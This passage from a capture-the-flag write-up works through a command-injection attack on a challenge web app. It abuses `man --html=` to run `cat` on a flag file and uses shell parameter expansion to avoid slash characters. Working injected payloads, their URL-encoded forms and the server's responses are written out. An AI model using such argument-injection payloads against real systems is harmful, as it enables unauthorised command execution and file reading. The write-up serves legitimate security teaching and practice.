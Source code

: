 Our final command executed in the container will look like this:

```bash
nobody@21aa2caa1ab3:/app$ man --html="cat ${PATH:0:1}flag.txt" man
oiccflag{test}
<!-- Creator     : groff version 1.22.4 -->
<!-- CreationDate: Wed Feb 12 13:47:14 2025 -->
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN"
"http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
<meta name="generator" content="groff -Thtml, see www.gnu.org">
<meta http-equiv="Content-Type" content="text/html; charset=US-ASCII">
... SNIPPED ...
```

Ok now we got a PoC working in the container. Time to convert this in URL form:

```
http://challenges.oceaniacc.com:5001/$/--html="cat ${PATH:0:1}flag.txt"/man
```

When sending this we get the following error:

```
sh: 1: Syntax error: Missing '}'
sh: 1: 0: not found
sh: 1: 1}flag.txt: not found
man: couldn't execute any browser from cat ${PATH:0:1}flag.txt
```

Weird, is it not expanding properly? I try with just `${PATH}`:

```
http://challenges.oceaniacc.com:5001/$/--html=cat%20$%7BPATH%7Dflag.txt/man

cat: '/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binflag.txt': No such file or directory
man: couldn't execute any browser from cat ${PATH}flag.txt
```

Ok it actually resolved the `PATH` variable. It is known that the colons to extract substrings in parameter expansions don't work in `sh`, so maybe it's executing in a primitive shell. Looking at the solution, it uses the `%` operator which is used for pattern removal in parameter expansion. I can use this operator instead to remove the rest of the string to only give me `/`. I can't use `PATH` though because it contains multiple forward slash characters. Let's see what the value of `PWD` is.

```
http://challenges.oceaniacc.com:5001/$/--html=cat%20$%7BPWD%7Dflag.txt/man

cat: /appflag.txt: No such file or directory
man: couldn't execute any browser from cat ${PWD}flag.txt
```

> Note: `PATH` and `PWD` are well-known environment and shell variables. You can check out more common variables [here](https://www.digitalocean.com/community/tutorials/how-to-read-and-set-environmental-and-shell-variables-on-linux#common-environmental-and-shell-variables) but I prefer just executing the `env` command in the docker container to see what's available.
